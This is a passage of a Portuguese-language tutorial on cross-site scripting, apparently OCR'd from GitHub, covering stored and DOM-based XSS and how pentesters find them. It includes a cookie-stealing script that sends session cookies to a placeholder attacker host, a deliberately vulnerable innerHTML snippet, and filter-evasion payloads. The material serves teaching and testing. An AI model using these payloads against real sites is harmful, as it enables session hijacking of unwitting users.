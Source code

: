 O **Stored XSS**, por sua vez, é considerado significativamente mais perigoso devido à sua natureza persistente. Neste tipo de ataque, o payload malicioso é armazenado permanentemente no servidor da aplicação alvo, como em um banco de dados, arquivo de log ou em um sistema de mensagens. Vetores comuns para este ataque incluem campos de comentários em blogs, nomes de perfil de usuário, mensagens em fóruns ou qualquer outro local onde a entrada do usuário é salva e posteriormente exibida a outros usuários. Imagine um sistema de comentários onde o texto inserido é salvo e renderizado sem tratamento. Um atacante poderia submeter um comentário contendo `<script>fetch('http://atacante.com/coletor?c=' + btoa(document.cookie))</script>`. Este script seria salvo pelo servidor. Subsequentemente, todo usuário que visualizasse a página de comentários receberia o script como parte do conteúdo legítimo, e seu navegador o executaria automaticamente, enviando uma versão codificada em Base64 do cookie de sessão para o servidor do atacante, sem qualquer outra interação necessária por parte da vítima. A capacidade de atacar múltiplos usuários de forma passiva torna o Stored XSS uma ameaça de alto impacto.

- **Leitura recomendada**: [Stored XSS by OWASP](https://www.google.com/search?q=https://owasp.org/www-community/attacks/Stored_XSS_Attacks)
### DOM-based XSS

O **DOM-based XSS** representa uma variante mais sutil, onde a vulnerabilidade reside inteiramente na lógica do código do lado do cliente (client-side). A injeção e a execução do payload ocorrem como resultado da manipulação insegura do ambiente do DOM no navegador da vítima. Crucialmente, o payload malicioso pode nunca ser enviado ao servidor, tornando a detecção por meio de logs do lado do servidor praticamente impossível. A vulnerabilidade surge quando um script legítimo da página utiliza dados controláveis pelo usuário (a **source**, ou fonte, como `location.hash` ou `document.referrer`) para popular uma função ou propriedade insegura (o **sink**, ou destino, como `innerHTML` ou `document.write()`). Por exemplo, o JavaScript `var nome = new URLSearchParams(window.location.search).get('nome'); document.getElementById('saudacao').innerHTML = "Bem-vindo, " + nome;` é vulnerável. Um atacante pode criar o link `http://exemplo.com/pagina?nome=<img src=x onerror=alert('XSS')>`. O script extrai o payload do parâmetro `nome` (a fonte) e o insere diretamente na propriedade `innerHTML` (o sink), fazendo com que o navegador processe o HTML malicioso e execute o código no evento `onerror`.

- **Leitura recomendada**: [DOM-based XSS by PortSwigger](https://portswigger.net/web-security/cross-site-scripting/dom-based)
## Descoberta de Vulnerabilidades XSS

A descoberta de XSS inicia-se com a identificação de todos os vetores de entrada de dados em uma aplicação, pois cada ponto onde o dado fornecido pelo usuário é refletido na página é um candidato potencial. A abordagem combina análises manuais e o uso de ferramentas automatizadas. Na investigação manual, o objetivo é compreender o contexto no qual a entrada é renderizada. Um pentester deve questionar se o dado é refletido dentro de uma tag HTML, de um atributo, de um bloco de script JavaScript ou mesmo em um contexto de CSS. A resposta a essa pergunta determina a estratégia de ataque. Inicialmente, utiliza-se uma string única e não maliciosa (ex: `XYZZY123`) para localizar onde a entrada aparece no código-fonte da página. Uma vez localizado o ponto de reflexão, o próximo passo é tentar escapar do contexto atual para injetar código executável. Por exemplo, se a entrada é refletida no atributo `value="SUA_ENTRADA"`, um payload como `"><script>alert(1)</script>` pode ser eficaz para fechar o atributo e a tag, inserindo um novo elemento de script.

Um aspecto fundamental em cenários de pentest e CTF é a **evasão de filtros**, pois muitas aplicações implementam defesas, como listas negras (blacklists), para bloquear palavras-chave e caracteres perigosos. A criatividade do atacante é essencial neste ponto, envolvendo técnicas como a variação de maiúsculas/minúsculas (`<ScRiPt>`), codificação de caracteres (HTML ou URL), inclusão de caracteres nulos (`<scr%00ipt>`), e, principalmente, o uso de manipuladores de eventos (`onerror`, `onload`, `onmouseover`) em diversas tags HTML (`<img>`, `<iframe>`, `<svg>`), como no clássico `<img src=x onerror=alert(1)>`. Para testes mais robustos e desafios complexos, é comum o uso de **payloads poliglota**, que são strings de código capazes de executar em múltiplos contextos simultaneamente, aumentando a chance de sucesso contra filtros desconhecidos. Profissionais frequentemente consultam vastas coleções de payloads, como a **PortSwigger's XSS cheat sheet** e o repositório **payloadallthethings no GitHub**, que são recursos indispensáveis para contornar diferentes tipos de sanitização.

- **Referências de Payloads**:
    - [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    - [PayloadAllTheThings - XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

Ferramentas de varredura automatizada, como o **Burp Suite Scanner** e o **OWASP ZAP**, podem ser recursos valiosos na fase inicial de reconhecimento. Elas operam enviando uma vasta gama de payloads conhecidos para todos os parâmetros e pontos de entrada detectados, analisando as respostas para identificar reflexões de código que indiquem uma possível vulnerabilidade. Embora acelerem o processo, essas ferramentas podem não descobrir vulnerabilidades mais complexas, que dependem da lógica de negócio da aplicação ou que exigem múltiplos passos para serem exploradas. Além disso, a utilização de ferramentas automatizadas pode gerar muito "barulho", sendo facilmente detectadas pelo alvo. Portanto, a análise manual permanece indispensável para uma avaliação precisa.
